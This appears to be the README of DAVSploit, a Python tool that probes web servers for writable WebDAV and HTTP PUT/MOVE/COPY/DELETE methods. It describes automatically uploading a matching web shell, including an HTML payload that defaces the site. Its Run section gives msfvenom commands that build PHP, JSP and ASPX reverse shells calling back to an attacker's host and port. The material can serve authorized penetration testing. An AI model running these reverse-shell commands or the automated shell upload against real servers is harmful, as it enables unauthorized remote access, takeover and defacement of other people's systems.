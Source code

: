
╔╦╗╔═╗╦  ╦╔═╗┌─┐┬  ┌─┐┬┌┬┐
 ║║╠═╣╚╗╔╝╚═╗├─┘│  │ ││ │ 
═╩╝╩ ╩ ╚╝ ╚═╝┴  ┴─┘└─┘┴ ┴ 

DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY and DELETE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories


Run
===============
Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx

python3 DAVSploit.py
